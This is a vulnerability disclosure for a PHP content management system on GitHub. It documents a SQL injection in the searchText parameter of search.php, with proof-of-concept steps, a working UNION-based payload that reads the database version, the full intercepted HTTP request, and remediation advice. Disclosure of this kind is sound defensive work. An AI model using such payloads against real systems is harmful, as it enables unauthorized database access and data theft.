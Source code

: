 #### Authenticated SQL Injection in Content_Management_System

```
Vendor: github
Product: Content_Management_System
Product URL: https://github.com/mandlik05dheeraj/Content_Management_Tool/tree/main/Content_Management_System
```

##### **Executive Summary** 

A search-based SQL injection vulnerability in the Content_Management_System, hosted on GitHub, allows an attacker to manipulate SQL queries by injecting malicious SQL code into the search functionality. This vulnerability is present in all versions of the system available up to the current repository state as detailed in the product URL. Exploiting this vulnerability could allow unauthorized access to the database through the search feature, enabling the attacker to view, modify, or delete information, potentially leading to a complete compromise of the system's integrity and availability.

```
Vulnerability Name: SQL injection in searchText
Severity: High
Affected URL: http://localhost/search.php
Affected Parameter: searchText
HTTP Method: POST
```

##### **Issue Description**

The web application is vulnerable to SQL injection in the "searchText" input field. An attacker can exploit this vulnerability by inputting malicious SQL code in the HTTP POST request to manipulate the search functionality. In the provided example, the attacker modifies the "searchText" parameter to insert a malicious SQL code that could lead to unauthorized database access. This exploitation can allow viewing, modifying, or deleting database information, potentially compromising the system's integrity and availability. 

##### **Proof Of Concept**

1. **Set Up a Proxy:** First, configure a web proxy in your browser to intercept HTTP requests. Tools like Burp Suite or OWASP ZAP can be used for this purpose.
2. **Navigate and Intercept:** Access the vulnerable web application by navigating to `http://192.168.150.131/search.php`. Ensure you are on the page that utilizes the `searchText` input field for querying database entries.

![image-20240429173027815](.\screenshot\image-20240429173027815.png)

1. **Intercept the Request:** Use the web proxy to capture the HTTP POST request made when a search query is submitted. The initial request will look like a standard search, typically with benign input in the `searchText` field.
2. **Modify the Payload:** In the intercepted request, modify the `searchText` parameter to include the SQL injection payload: `searchText=-1' union all select 1,2,CONCAT(0x7e,(version()),0x7e),3,4,5,6,7,8,9#`. This payload is designed to execute a union SQL query that retrieves the database version, among other dummy values, to demonstrate the ability to inject SQL commands.
3. **Send the Malicious Request and Observe the Outcome:** After modifying the request with the SQL injection payload, forward the request through your proxy. Monitor the response from the server to this modified request. If the SQL injection is successful, the server's response will include the database version wrapped between tilde characters (`~`).

![image-20240430100142316](.\screenshot\image-20240430100142316.png)

![image-20240429173101460](.\screenshot\image-20240429173101460.png)

**Payload:**

`searchText=-1' union all select 1,2,CONCAT(0x7e,(version()),0x7e),3,4,5,6,7,8,9#`

**Request:**

```
POST /search.php HTTP/1.1
Host: 192.168.150.131
Content-Length: 129
Cache-Control: max-age=0
Origin: http://192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/search.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: cms_username=null; cms_email=null; cms_PID=1
Connection: close

searchText=-1%27+union+all+select+1%2C2%2CCONCAT%280x7e%2C%28version%28%29%29%2C0x7e%29%2C3%2C4%2C5%2C6%2C7%2C8%2C9%23&searchBtn=
```

**searchText parameter in search.php:**
It can be found from the code that after obtaining the post request, the author did not filter it, and passing parameters to sql resulted in sql injection.

![image-20240430094445392](.\screenshot\image-20240430094445392.png)

##### Impact:

SQL injection attacks can have devastating consequences, including unauthorized database access, data theft, database corruption, and even complete system compromise. Attackers can use SQL injection to bypass authentication, retrieve sensitive information, alter or delete data, and execute administrative operations on the database. 

Remediation:

To prevent SQL injection vulnerabilities, it is essential to use parameterized queries or prepared statements to ensure that SQL commands are securely executed. Employing server-side validation to check user inputs against expected formats can further mitigate risks. 

##### References:

https://owasp.org/www-community/attacks/SQL_Injection



